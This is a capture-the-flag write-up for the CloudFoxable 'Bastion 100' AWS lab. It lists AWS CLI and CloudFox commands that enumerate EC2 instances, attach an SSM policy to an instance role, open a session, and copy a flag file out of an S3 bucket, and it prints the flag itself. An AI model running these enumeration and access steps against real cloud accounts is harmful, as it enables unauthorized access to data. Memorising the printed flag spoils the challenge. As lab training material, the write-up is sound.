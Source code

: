 # CloudFoxable - Bastion 100 Write-Up

## Overview

This write-up documents the step-by-step process to solve the **CloudFoxable - Bastion 100** challenge and retrieve the flag. The challenge involves setting up a **bastion host** and leveraging AWS Systems Manager (SSM) and IAM role permissions to explore and extract the required flag.

---

## Challenge Setup

### 1. **Enable the Bastion Challenge**

To begin, I enabled the **bastion** challenge by modifying the Terraform configuration and applying it:

```bash
# Edit the Terraform variables file
tfvars_file="cloudfoxable/aws/terraform.tfvars"
sed -i 's/bastion_enabled = false/bastion_enabled = true/' $tfvars_file

# Apply the changes
terraform apply
```

Upon successful execution, Terraform will output important information, including **starting user credentials** and the **bastion EC2 instance details**.

---

## Accessing the Bastion Host

### 2. **Set Up AWS Credentials**

I configured AWS credentials to authenticate as the `ctf-starting-user`.

To verify that authentication is working:

```bash
aws sts get-caller-identity --profile cloudfoxable
```

---

## Enumerating EC2 Instances

### 3. **Find the Bastion Instance**

I used **CloudFox** to list EC2 instances and identify the **bastion** host:

```bash
cloudfox aws -p cloudfoxable instances -v2
```

This revealed an instance named `bastion` with the ID `i-02b1b4400ba4e0df8` and role `arn:aws:iam::390844766599:role/reyna` .

---

## Gaining Access via AWS SSM

### 4. **Attempt to Start an SSM Session**

To connect to the instance, I attempted an **AWS Systems Manager (SSM) Session**:

```bash
aws ssm start-session --target i-02b1b4400ba4e0df8 --profile cloudfoxable
```

However, this initially failed with:

```
An error occurred (TargetNotConnected) when calling the StartSession operation: i-02b1b4400ba4e0df8 is not connected.
```

### 5. **Attach the Required IAM Policy**

The error suggested that the instance lacks the required **SSM permissions**. I checked the IAM role attached to the instance using:

```bash
cloudfox aws -p cloudfoxable permissions --principal arn:aws:iam::390844766599:role/reyna
```

I then attached the missing **AmazonSSMManagedInstanceCore** policy to the `reyna` role:

```bash
aws iam attach-role-policy --role-name reyna --policy-arn arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore
```

### 6. **Verify SSM Agent Status**

After attaching the policy, I checked the SSM status of the instance:

```bash
aws ssm describe-instance-information --filters Key=InstanceIds,Values=i-02b1b4400ba4e0df8 --profile cloudfoxable
```

This confirmed that the instance is now **online** and ready for an SSM session.

### 7. **Connect to the Bastion Host**

I then successfully established an **SSM Session**:

```bash
aws ssm start-session --target i-02b1b4400ba4e0df8

```

---

## Identifying the Flag

### 8. **Enumerate S3 Buckets**

I used **CloudFox** to list S3 buckets:

```bash
cloudfox aws -p cloudfoxable s3
```

The output reveals a bucket named **cloudfoxable-bastion-8oaiq**.

### 9. **List Files in the Bucket**

I listed the contents of the identified S3 bucket:

```bash
aws s3 ls s3://cloudfoxable-bastion-8oaiq
```

The output contained a file named `flag.txt`.

### 10. **Download and Read the Flag**

I retrieved the flag file:

```bash
aws s3 cp s3://cloudfoxable-bastion-8oaiq/flag.txt .
cat flag.txt
```

The flag is revealed:

```
{FLAG:bastion::ifYouHaveAccessToAnEC2YouHaveAccessToItsIamPermissions}
```

---

## Conclusion

This challenge demonstrated the process of:

- Deploying an AWS-based bastion host using Terraform.
- Setting up AWS credentials and enumerating cloud resources with **CloudFox**.
- Debugging SSM connection issues and fixing missing IAM permissions.
- Using **CloudFox** and AWS CLI to discover **S3 buckets** and retrieve the challenge flag.

This exercise highlights how **EC2 IAM roles** can be leveraged for privilege escalation and why **least privilege principles** are crucial in cloud environments.

**Key Takeaway:** If you have access to an EC2 instance, you may also have access to its associated IAM permissions, which can lead to unintended privilege escalation.

---
